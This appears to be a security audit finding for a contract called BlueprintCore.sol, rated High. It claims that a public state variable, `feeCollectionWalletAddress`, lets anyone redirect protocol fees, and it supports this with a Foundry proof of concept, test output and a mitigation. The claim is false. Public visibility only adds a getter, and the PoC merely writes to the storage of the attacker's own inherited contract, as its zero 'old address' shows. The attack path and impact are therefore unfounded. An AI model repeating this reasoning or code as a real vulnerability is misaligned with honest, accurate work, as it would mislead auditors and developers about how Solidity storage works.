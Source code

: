 Tall Green Corgi

High

# public visibility of variable ``feeCollectionWalletAddress`` In the contract ``BlueprintCore.sol`` causing anyone to change it and receive the fee

### Summary

In the contract ``BlueprintCore.sol`` the visibility of variable ``feeCollectionWalletAddress`` which can cause anyone to change the address and receive the fee

### Root Cause

the root cause of this problem is the public visibility of variable ``feeCollectionWalletAddress`` In the contract ``BlueprintCore.sol``
link "https://github.com/sherlock-audit/2025-03-crestal-network/blob/27a3c28155702b3a68f29347efedffb048010e33/crestal-omni-contracts/src/BlueprintCore.sol#L91" 

### Internal Pre-conditions

none

### External Pre-conditions

none

### Attack Path

attacker just need to inherit and call the contract ``BlueprintCore.sol``

### Impact

anyone can change the ``feeCollectionWalletAddress`` In the contract ``BlueprintCore.sol`` and claim the fee 

### PoC

here is the PoC
written using foundry
the attacker create the following contract
``` solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.26;
import {BlueprintCore} from "./BlueprintCore.sol";
import {console} from "forge-std/console.sol";
contract canChangeAddress is BlueprintCore {

    function changeFeeCollectionWalletAddress() public returns(address){
        address oldaddress = feeCollectionWalletAddress;
        address _feeCollectionWalletAddress = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;
        feeCollectionWalletAddress = _feeCollectionWalletAddress;
        return oldaddress;
       
    }
    function getFeeCollectionWalletAddress() public view returns(address){
        return feeCollectionWalletAddress;   
  
    }

}
```
``` solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.26;
import {Test, console} from "forge-std/Test.sol";
import {canChangeAddress} from "../src/canChangeAddress.sol";
import {BlueprintCore} from "../src/BlueprintCore.sol";

contract changingAddress is Test{
    BlueprintCore bulePrint;
    canChangeAddress canChangcontract;
    address attacker = makeAddr("attacker");
    function setUp() public{
        bulePrint = new BlueprintCore();
        canChangcontract = new canChangeAddress();
    }
    
    function testchangeFeeCollectionWalletAddress() public{
        vm.startPrank(attacker);
        address oldAddr = canChangcontract.changeFeeCollectionWalletAddress();
        console.log("old address");
        console.logAddress(oldAddr);
        console.log("new address");
        console.logAddress(canChangcontract.getFeeCollectionWalletAddress());
        vm.stopPrank();
    }
}
```
```console output
result
Ran 1 test for test/changingAddress.t.sol:changingAddress
[PASS] testchangeFeeCollectionWalletAddress() (gas: 40357)
Logs:
old address
 0x0000000000000000000000000000000000000000 
 new address
 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
```


### Mitigation

In the contract ``BlueprintCore.sol`` the visibility variable `feeCollectionWalletAddress` can be changed from public to private and a function can be created with modifier `onlyOwner` which can change the value of  `feeCollectionWalletAddress`